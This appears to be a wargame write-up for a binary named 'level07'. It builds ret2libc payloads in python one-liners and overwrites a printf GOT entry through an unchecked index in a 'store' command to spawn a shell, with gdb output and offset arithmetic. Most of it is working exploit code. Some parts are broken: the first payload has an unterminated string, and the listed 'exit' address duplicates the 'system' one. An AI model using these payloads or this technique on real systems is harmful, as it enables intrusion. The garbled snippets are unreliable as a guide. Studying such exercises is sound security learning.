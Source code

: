 addr of "/bin/sh" : 0xf7f897ec
addr of system: 0xf7e6aed0
addr of exit: 0xf7e6aed0

Ret2libc code:

```
python -c 'print "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "
```

We need to be able to put this code in a place where it can be executed later on.
Command[20] could allow us to store this ret2libc as the commands are quite short and no check is performed on these adresses

To do so we can first call for a garbage command to prefix our shellcode

```
python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n"'
```

This should allow us to be able to then call "store" command and pass an index without touching to the ret2libc code contained in command[20]

The data we want to store using "store" needs to be put at an index that will be executed.
To do so we can override the address of the plt of a function
-> stack_check_fail : 0x804a010
-> printf : 0x804a000
-> fgets : 0x804a00c

```
(python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "store" + "\n" + "<addr of buffer command>"[::-1] + "\n" + "diff between addr of data_storage and printf plt"' ; cat) | ./level07
(python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "store" + "\n" + "4294956639" + "\n" + "4160435336"' ; cat) | ./level07
```

Address of buffer command:
0xffffd658 = 4294956632 in decimal

Address of buffer data_storage:

```
(gdb) ni 1
0x08048659 in store_number ()
(gdb) focus cmd
Focus set to CMD window.
(gdb) x/x $ebp-0x10
0xffffd488:     0xffffd65f
```

Difference between 0xffffd488 and 0x804a000 :
0xF7FB3488 = 4160435336 in decimal %3 = 2 GOOD

<!-- Difference between 0xffffd488 and 0x804a00c : -->
<!-- 0xF7FB35E8 = 4160435688 in decimal %3 = 0 KO -->

<!-- NICE -->
<!-- Difference between 0xffffd488 and 0x804a010: -->
<!-- 0xF7FB35E4 = 4160435684 in decimal %3 = 2 GOOD -->

TO RUN STDIN PYTHON INSIDE GDB:
run < <(python -c 'print "AAAAAA" + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xf8\x97\xec"[::-1] + "\n" + "store" + "\n" + "4294956639" + "\n" + "4160435336"')
